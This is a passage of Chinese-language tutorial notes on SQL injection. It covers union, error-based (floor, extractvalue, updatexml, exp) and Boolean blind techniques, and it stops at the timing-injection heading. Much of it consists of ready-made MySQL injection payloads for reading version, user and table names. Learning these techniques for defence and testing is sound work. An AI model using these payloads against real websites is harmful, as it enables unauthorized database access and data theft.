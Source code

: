    - 实际执行的sql语句为

   ```mysql
   select * from news where tid=1 union select 1, 2, @@version
   ```

   - Union注入限制：很多攻击场景不是select注入，union语句被很多网页过滤

2. 报错注入：数据报错语句中包含SQL语句执行结果

   - 常见报错注入函数：floor、extractvalue、updatexml...
   - `floor` payload：

   ```mysql
   and select 1 from (select count(*), concat(version(), floor(rand(0)*2)) x from information_schema.tables group by x) a);%23
   ```

   - `extractvalue` payload（改变offset从0增加，可以读取数据库中的所有表名）：

   ```mysql
   and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1 offset 1)));%23
   ```

   - `updatexml` payload：

   ```mysql
   and 1 = (updatexml(1, concat(0x3a, (select user())), 1));%23
   ```

   - `Exp` payload：

   ```mysql
   Exp(~(select * from (select user()) a));%23
   ```

3. Boolean盲注

   - 在数据回显的不同，逐个爆破猜测。example，payload&sql:

   ```mysql
   xx' and pass > '123'%23
   ```

   ```mysql
   select *from user where user = 'xx' and pass > '123'#
   ```

   - 截取字符串的相关函数：

     - `left(Str,len)` &rarr; 从左侧截取Str的前num位
     - `substr(Str,offset,len)` &rarr; 从offset（最开始位置标记为1）开始截取Str的len长度。`ascii()` 将字符转化为ascii值。`mid(Str,offset,len)` 用法相同。
     - `regex` 正则表达式的用法。比如匹配user为root的正则表达式用法：`select user() regexp '^root'` 。可以嵌套if语句使用：

     ```mysql
     select * from users where id=1 and 1=(if((user() regexp '^r'), 1, 0));#
     ```

   - PS：mysql默认不区分大小写，可以先用binary函数处理

4. Timing 盲注

